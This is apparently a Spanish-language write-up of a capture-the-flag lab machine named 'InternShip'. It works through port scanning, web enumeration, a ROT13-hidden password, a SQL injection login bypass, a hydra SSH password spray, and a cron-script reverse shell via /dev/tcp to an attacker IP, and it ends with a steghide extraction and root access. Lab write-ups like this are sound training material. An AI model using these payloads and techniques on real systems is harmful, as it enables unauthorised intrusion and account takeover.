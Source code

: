 - Tags: #InternShip
---
[Maquina InternShip](https://mega.nz/file/TQdAXALQ#RWvOvq8NlGImQfjhptnNfYDQlRyqEIYBjNRTK8sM5o4) -> Enlace de descarga del laboratorio.

```bash
7z x internship.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh internship.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # direccion IP del target
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para determinar para ver si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Usamos nuestra herramienta
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos en el target
extractPorts allPorts # Parseamos la informacin mas relevante de la primera captura.
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0) )** -> Servicio **ssh** expuesto
**( 80/tcp open  http    Apache httpd 2.4.62 ((Debian)) )** -> Tenemos un servicio web expuesto

### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2 # Realizamos enumeracion de las tecnologias empleadas por la web
```

```bash
 # IP address by laboratories:
 172.17.0.2 gatekeeperhr.com # Aplicamos VirtualHosting para poder acceder a la web funcional
```

**( http://gatekeeperhr.com/index.html )** -> Esta es la direccion url de la web que tendremos que auditar

```bash
<!-- Quitar los permisos SSH a los pasantes, ya terminará el tiempo de pasantía --> # Revisanod el codigo fuente tenemos este comentario filtrado
```

```bash
gobuster dir -u http://gatekeeperhr.com/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash # Aplicamos descubrimiento de rutas:

/spam/                (Status: 200) [Size: 308] # Tenemos este recurso Modificado a ROT13
<!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' --> # 

echo "checy3" | tr 'A-Za-z' 'N-ZA-Mn-za-m'  # Resultado: purple3
La contraseña de usuario es 'purpl3' # Tenemos un contrasena para algun usuario 
```

**( http://gatekeeperhr.com/contact.html )** -> En esta seccion tenemos un potencial usuario: ( mariana@gatekeeperhr.com )

```bash
mariana' or 1=1-- - # Para el panel de inicio de sesion ingresamos esta inyeccion logrando accceder
```

```bash
# Del la web sacamos los usuarios para almacenarlos en users.txt
hydra -L users.txt -p purpl3 ssh://172.17.0.2 -t 64

[22][ssh] host: 172.17.0.2   login: pedro   password: purpl3 # Tenemos este usuario valido que usaremos para conectarnos por ssh
```

### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh pedro@172.17.0.2 # Nos logueamos
```

### Fase Escalada Privilegios:
```bash
find / -type f -iname "*.sh" 2>/dev/null | xargs ls -l # Buscamos por achivos ssh
-rwxrw-rw- 1 valentina valentina     30 Feb  9 01:47 /opt/log_cleaner.sh # Encontrando este archivo. y Tenemos capacidad de lectura.
```

**Nota** -> **( ps -faux )** Listando los procesos del sistema encontramos: Al parecer tenemos una tarea cron ejecutada con privilegios
```bash
root          50  0.0  0.0   3600  1840 ?        Ss   20:08   0:00 /usr/sbin/cron
root        6728  0.0  0.0   5980  3088 ?        S    22:23   0:00  \_ /usr/sbin/CRON
valenti+    6732  0.0  0.0   2576  1324 ?        Ss   22:23   0:00  |   \_ /bin/sh -c sleep 45; /opt/log_cleaner.sh
```

Modificaremos ese archivo para enviarnos una bash aplicando una **reverseShell**
```bash
nc -nlvp 443 # Nos ponemos en escucha, Y obtenemos una shell como este usaurio.
bash -c 'exec bash -c &>/dev/tcp/192.168.100.24/443 <&1' # 
```

```bash
cp ~/profile_picture.jpeg /tmp # Tenemos esta imagean que nos traeremos a nuestra maquina de atacante.
chmod 777 profile_picture.jpeg # Otorgamos permisos para poder descargarla
scp pedro@172.17.0.2:/tmp/profile_picture.jpeg . # colocamos las credenciales de pedro: ( purpl3 ) y Tendremos descargada la imagen
```

```bash
steghide info profile_picture.jpeg # Aplicamos estenografia para detectar si oculta algun archivo.
steghide extract -sf profile_picture.jpeg # Extraemos el contenido oculto
cat secret.txt # Vemos que este archivo contiene esta string: ( mag1ck ) Posiblemente sea las password de el usuario valentina
```

```bash
sudo su # Proporcionamos la password: ( mag1ck ) obteniendo una shell como root.  
```